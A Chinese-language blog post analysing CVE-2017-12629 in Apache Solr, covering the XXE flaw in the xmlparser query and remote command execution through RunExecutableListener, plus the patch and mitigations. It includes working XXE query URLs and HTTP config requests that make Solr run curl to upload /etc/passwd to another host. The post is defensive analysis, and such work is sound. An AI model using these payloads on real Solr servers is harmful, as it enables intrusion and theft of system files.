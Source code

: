 ```yaml
---
layout: post
title:  Apache Solr XML外部实体扩展和命令执行漏洞(CVE-2017-12629)漏洞分析
date: 2017-10-27
categories: 漏洞分析
excerpt: Apache Lucene/Solr团队在2017年10月12日发布了0day攻击预警(CVE-2017-12629)该漏洞可导致信息泄露和远程命令执行。官方更新了7.1版本来修复此漏洞。 
tags: java solr
---
```


* content
{:toc}


### 0x00 事件描述

Apache-Solr是一个企业级搜索服务器，对外提供类似于Web-service接口，基于Lucene开发。

Apache Lucene/Solr团队在2017年10月12日发布了0day攻击预警(CVE-2017-12629)该漏洞可导致信息泄露和远程命令执行。官方更新了7.1版本来修复此漏洞。而且某些RedHat产品使用了相关漏洞组件，可能受到此漏洞影响[参考1]。

经过分析验证，确认该漏洞确实存在，有关漏洞攻击脚本已经在网络中公开[参考2]，请相关用户尽快处理.



### 0x01 事件影响面
注:部分信息来自[参考1]和[参考3]

#### 影响面

该攻击事件可能影响到使用了Apache-Solr企业级搜索服务器和使用lucene相关组件的用户。

#### 影响版本

Apache-Solr 小于7.1版本都有可能受到rce攻击影响，xxe的影响版本在5.1-7.0.1 

|Platform |	Package | 	State |
|---------|:---------:|---------:|
|Red Hat Software Collections for Red Hat Enterprise Linux |rh-java-common-lucene 	|Affected|
|Red Hat Software Collections for Red Hat Enterprise Linux |rh-java-common-lucene5 	|Affected|
|Red Hat JBoss EAP 7 	|lucene 	|Affected|
|Red Hat JBoss Data Grid 7| 	lucene |	Affected|
|Red Hat Enterprise Linux 6|	lucene |	Will not fix|



### 0x02 漏洞信息

该CVE存在两个漏洞，Lucene的XML解析器在5.5版本才被导入[参考4]，在文档内允许文档类型定义和外部实体，可以造成XXE攻击；Solr的配置中有一个API:add-listener，通过这个API可以创建一个RunExecutableListener实例，导致远程命令执行，这个API只在solr中出现，而不是Lucene。官方在更新的7.1版本中移除了造成命令执行漏洞的RunExecutableListener模块，对造成XXE漏洞的XML解析器进行了修复

#### XML外部实体扩展漏洞

solr的查询流程从SolrDispatchFilter的dofilter开始，在Solr里面，使用QParse来处理查询解析，在查询语句中可以构造type=xmlparse就会使solr调用QparserPlugin的子类xmlQParsePlugin来对查询语句进行处理，造成xxe漏洞
	
slor服务器启动cloud实例


	solr start -c

创建集合

	http://localhost:8983/solr/admin/collections?action=CREATE&name=test&numShards=2&maxShardsPerNode=2

执行命令查询传入xml查询子句，可以通过监听本机4444端口收到http请求

	http://localhost:8983/solr/test/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "http://localhost:4444/test"><a></a>'}

调用栈如图所示,调用xmlparse解析器，查询子句引用外部实体
![](https://raw.githubusercontent.com/SuperXiaoxiong/SuperXiaoxiong.github.io/master/img/solr_picture1.PNG)

最后在xmlQParsePlugin实例中调用第三方xml处理库javax.xml.parsers.DocumentBuilder和javax.xml.parsers.DocumentBuilderFactory解析xml，在没有对DTD，Entity做足够的安全处理下造成xxe漏洞

#### 命令执行漏洞

先通过向collection的config添加监听类RunExecutableListener，再通过向collection中添加数据来触发监听类执行命令，执行payload，造成任意命令执行

发起请求给集合添加或更新RunExecutableListener类

	POST /solr/test/config HTTP/1.1
	Host: localhost:8983
	Connection: close
	Content-Type: application/json  
	Content-Length: 226
	
	{
	  "update-listener" : {
	   "event":"postCommit",
	   "name":"newlistener",
	   "class":"solr.RunExecutableListener",
	   "exe":"curl",
	   "dir":"/usr/bin/",
	   "args":["-F","value=@/etc/passwd","http://127.0.0.1:9090"]
	  }
	}

如果add报错可以使用update

初始化一个RunExecutableListener实例
![](https://raw.githubusercontent.com/SuperXiaoxiong/SuperXiaoxiong.github.io/master/img/solr_picture2.PNG)

提交数据即可触发命令执行

	POST /solr/test/update HTTP/1.1
	Host: localhost:8983
	Connection: close
	Content-Type: text/xml 
	Content-Length: 516
	
	<add>
	  <doc>
	    <field name="authors">SuperX</field>
	  </doc>
	</add>



在未授权用户无法直接访问向Solr服务器Config的API时通过构造xxe和RCE组合payload[参考2]既可以实现远程代码执行，并做一个简单的代码执行验证，虽然返回报错，但是可以看到命令已经执行
![](https://raw.githubusercontent.com/SuperXiaoxiong/SuperXiaoxiong.github.io/master/img/solr_picture3.PNG)

#### 漏洞修复

1. 修复xml解析器

Java对于xxe修复一般通过禁用外部实体解析来完成。
![](https://raw.githubusercontent.com/SuperXiaoxiong/SuperXiaoxiong.github.io/master/img/solr_xxe_7_0.PNG)

通过对比可以看到，添加了```dbf.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true)```

查看官网描述当```XMLConstants.FEATURE_SECURE_PROCESSING```是true的话the implementation will limit XML processing to conform to implementation limits. Examples include enity expansion limits and XML Schema constructs that would consume large amounts of resources. If XML processing is limited for security reasons, it will be reported via a call to the registered ErrorHandler.fatalError(SAXParseException exception)，对xml处理的时候进行限制处理，例如限制 实体扩展和xml造成dos情况，如果处理过程中触发了限制会报告给SAXParseException.就是说对实体扩展和dos，xxe攻击做了限制

![](https://raw.githubusercontent.com/SuperXiaoxiong/SuperXiaoxiong.github.io/master/img/solr_xxe_7_1.PNG)

2. 修复任意命令执行

直接删掉了RunExecutableListener类，避免了命令执行

### 0x03 修复方案

1. 升级到7.1最新版本
2. 使用参数-Ddisable.configEdit=true来运行Solr实例
3. 经过实践发现，对solr未授权访问进行控制，效果更实际

### 0x04 时间线

2017-10-12 事件披露

2017-10-21 完成漏洞分析

### 0x05 参考链接

1. http://mail-archives.us.apache.org/mod_mbox/www-announce/201710.mbox/%3C018601d343b3$53868c50$fa93a4f0$@apache.org%3E
2. https://www.exploit-db.com/exploits/43009/
3. https://access.redhat.com/security/cve/cve-2017-12629
4. http://lucene.apache.org/solr/5_5_0/solr-core/org/apache/solr/search/QParserPlugin.html

### 0x06 补充

看到创宇报告，遗漏newSearcher也可以直接触发命令执行

如果已经有listener监听器，可以使用新的name或者直接update-listener进行覆盖。


	POST /solr/test/config HTTP/1.1
	Host: localhost:8983
	Connection: close
	Content-Type: application/json  
	Content-Length: 226
	
	{
	  "add-listener" : {
	   "event":"newSearcher",
	   "name":"newlistener",
	   "class":"solr.RunExecutableListener",
	   "exe":"curl",
	   "dir":"/usr/bin/",
	   "args":["-F","value=@/etc/passwd","http://127.0.0.1:9090"]
	  }
	}






